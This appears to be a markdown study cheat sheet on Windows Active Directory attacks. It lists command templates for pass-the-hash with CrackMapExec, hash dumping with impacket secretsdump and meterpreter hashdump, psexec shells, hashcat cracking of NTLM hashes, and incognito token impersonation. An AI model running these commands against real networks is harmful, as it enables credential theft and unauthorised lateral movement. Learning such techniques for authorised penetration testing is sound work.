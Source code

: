          ![](./res/img/42.png)

      - Attacks
        - Pass the password/hash
          - Tools
            - Crackmapexec: https://github.com/byt3bl33d3r/CrackMapExec
            - psexec: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
            - secretsdump: https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
          - Authentication using user + password in `crackmapexec`: `crackmapexec <ip/CIDR> -u <user> -d <domain> -p <pass>`
          - Authentication using user + hash in `crackmapexec`: `crackmapexec <ip/CIDR> -u <user> -H <hash> --local`
            - Only works with NTLM hashes, not NTLMv2
            - Example hash: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:<HASH-TO-USE>:::`
          - Grabbing hashes using metasploit
            - Module: `windows/smb/psexec` to access
            - `meterpreter > hashdump`
          - Shell using `psexec`: `psexec.py <domain>/<user>:<password>@<ip-remote>`
          - Grabbing hashes using `secretsdump`: `secretsdump.py <domain>/<user>:<password>@<ip-remote>`
          - Cracking hashes using hashcat: `hashcat -m 1000 <hash-file> <wordlist> --force --show`
        - Token impersonation
          - Tokens: temporary keys that allow you access to a system/network without having to provide credentials each time you access a file; think cookies for computers
            - Delegate: created for logging into a machine or using Remote Desktop
            - Impersonate: "non-interactive" such as attaching a network drive or a domain logon script 
          - Attack
            - In an open meterpreter session
              1. `load incognito`
              2. `list_tokens -u`
              3. `impersonate_token <an-available-token>`
        - Kerberoasting
